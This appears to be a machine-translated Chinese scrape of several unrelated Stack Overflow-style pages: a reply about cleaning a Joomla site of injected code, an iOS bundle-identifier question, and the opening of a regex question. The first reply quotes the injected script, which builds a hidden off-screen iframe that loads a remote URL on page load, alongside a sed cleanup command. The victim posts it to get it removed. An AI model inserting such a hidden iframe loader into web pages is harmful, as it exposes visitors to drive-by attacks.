 > 赞同：0
> 
> 时间：2012-10-11T07:12:29.537

你有没有清除病毒？因为我感染了同样的病毒。我的网站在 joomla。

编辑：

我使用代码：

```
grep -lr " function frmAdd" public_html | xargs sed -i '/ function frmAdd/d' 
```

但如果你有这样的东西

```
 <html><body bgcolor="#FFFFFF"><!--ef09d2--><script>  function frmAdd() { var ifrm = document.createElement('iframe'); ifrm.style.position='absolute'; ifrm.style.top='-999em'; ifrm.style.left='-999em'; ifrm.src = "http://fenwaywest.com/media/index.php";ifrm.id = 'frmId';document.body.appendChild(ifrm);};window.onload = frmAdd;</script><!--/ef09d2-->
</body></html> 
```

这只会返回`</body></html>`

# iphone - Bundle Identifier 中的 -temp-caseinsensitive-rename

> ID：12820022
> 
> 赞同：12
> 
> 时间：2012-10-10T13:04:03.847
> 
> 标签：iphone, ios, xcode, xcode4

我创建了名为 myap 的应用程序。与此应用程序一起在 AppID com.mydomain.myapp 中创建了 Bundle Identifier 并创建了新的配置文件。之后我注意到我的应用程序拼写错误，所以我从“myap”重命名为“myapp”，期望捆绑标识符会相应更改。然而令我惊讶的是，我将捆绑标识符分配为“com.mydomain.myapp-temp-caseinsensitive-rename”。这是什么？我试图在目标信息选项卡中显式更改捆绑标识符，但应用程序正在呻吟。我应该怎么做才能使应用程序及其捆绑包走上正轨？

* * *

## 回答 #1

> 赞同：44
> 
> 时间：2014-01-15T02:49:28.813

在 XCode 中，转到 Build Settings 并更改 Packaging 下的 Product Name

# regex - 正则表达式 (Regex) 仅用于数字 (0-9)，后跟点

> ID：12820024
> 
> 赞同：1
> 
> 时间：2012-10-10T13:04:11.793
> 
> 标签：regex
